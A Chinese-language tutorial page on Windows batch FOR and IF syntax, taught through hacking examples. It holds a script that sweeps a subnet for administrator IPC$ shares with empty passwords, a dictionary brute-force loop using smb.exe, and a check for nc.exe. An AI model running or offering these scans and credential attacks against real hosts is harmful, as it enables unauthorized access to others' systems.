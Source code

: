- `gcc` 黑客通常用它来编译C语言写的文件
- `su` 权限转换为指定使用者
- `telnet IP telnet`连接对方主机（同win2K），当出现bash$时就说明连接成功。
- `ftp ftp`连接上某服务器（同win2K）

### 批处理命令与变量
---
#### for命令及变量 基本格式

- `FOR /`参数 `%variable IN (set) DO command [command_parameters] %variable:`指定一个单一字母可替换的参数，如：`%i` ，而指定一个变量则用：`%%i` ，而调用变量时用：`%i%` ，变量是区分大小写的（%i 不等于 %I）。
批处理每次能处理的变量从`%0—%9`共10个，其中`%0`默认给批处理文件名使用，%1默认为使用此批处理时输入的的第一个值，同理：%2—%9指输入的第2-9个值；例：`net use ipipc$ pass /user:user `中`ip`为`%1`,pass为`%2` ,user为`%3`
- `(set):`指定一个或一组文件，可使用通配符，如：`(D:user.txt)`和`(1 1 254)(1 -1 254),{“(1 1 254)”}`第一个"1"指起始值，第二个"1"指增长量，第三个"254"指结束值，即：从1到254；“(1 -1 254)”说明：即从254到1;
- `command: ` 指定对第个文件执行的命令，如：net use命令；如要执行多个命令时，命令这间加：& 来隔开
- `command_parameters: `为特定命令指定参数或命令行开关
- `IN (set)`:指在`(set)`中取值；`DO command` ：指执行command
- 参数：`/L`指用增量形式{ (set)为增量形式时 }；`/F`指从文件中不断取值，直到取完为止{ (set)为文件时，如(d:pass.txt)时 }。


用法举例：
```CMD
@echo off
echo 用法格式：test.bat *.*.* > test.txt
for /L %%G in (1 1 254) do echo %1.%%G >>test.txt & net use \%1.%%G /user:administrator | find "命令成功完成" >>test.txt
```
 存为test.bat 说明：
 对指定的一个C类网段的254个IP依次试建立administrator密码为空的`IPC$`连接，如果成功就把该IP存在test.txt中。
　　`/L`指用增量形式（即从1-254或254-1）；输入的IP前面三位：`*.*.*`为批处理默认的 `%1`；`%%G`为变量(ip的最后一位）；& 用来隔开`echo`和`net use`这二个命令；`|` 指建立了`ipc$`后，在结果中用find查看是否有"命令成功完成"信息；%1.%%G 为完整的IP地址；(1 1 254) 指起始值，增长量，结止值。
```cmd
　　@echo off
　　echo 用法格式：ok.bat ip
　　FOR /F %%i IN (D:user.dic) DO smb.exe %1 %%i D:pass.dic 200
```
　　存为：ok.exe 说明：输入一个IP后，用字典文件`d:pass.dic`来暴解`d:user.dic`中的用户密码，直到文件中值取完为止。`%%i`为用户名；`%1`为输入的IP地址（默认）。
　
### if命令及变量 基本格式

- `IF [not] errorlevel 数字 命令语句` 如果程序运行最后返回一个等于或大于指定数字的退出编码，指定条件为“真”。
例：`IF errorlevel 0 命令 `指程序执行后返回的值为0时，就值行后面的命令；`IF not errorlevel 1 命令`指程序执行最后返回的值不等于1，就执行后面的命令。
0 指发现并成功执行（真）；1 指没有发现、没执行（假）。
- `IF [not] 字符串1==字符串2 命令语句` 如果指定的文本字符串匹配（即：字符串1 等于 字符串2），就执行后面的命令。
例：`if "%2%"=="4" goto start`指：如果输入的第二个变量为4时，执行后面的命令（注意：调用变量时就`%`变量名`%`并加`" "`）
- `IF [not] exist 文件名 命令语句` 如果指定的文件名存在，就执行后面的命令。
例：`if not nc.exe goto end`指：如果没有发现nc.exe文件就跳到":end"标签处。
- `IF [not] errorlevel 数字 命令语句 else 命令语句`或 `IF [not] 字符串1==字符串2 命令语句 else 命令语句`或` IF [not] exist 文件名 命令语句 else 命令语句 `加上：else 命令语句后指：当前面的条件不成立时，就指行else后面的命令。注意：else 必须与 if 在同一行才有效。 当有`del`命令时需把`del`命令全部内容用`< >`括起来，因为`del`命令要单独一行时才能执行，用上`< >`后就等于是单独一行了；例如：`if exist test.txt. <del test.txt.> else echo test.txt.missing `，注意命令中的`.`
### 系统外部命令
> 注：系统外部命令(均需下载相关工具)
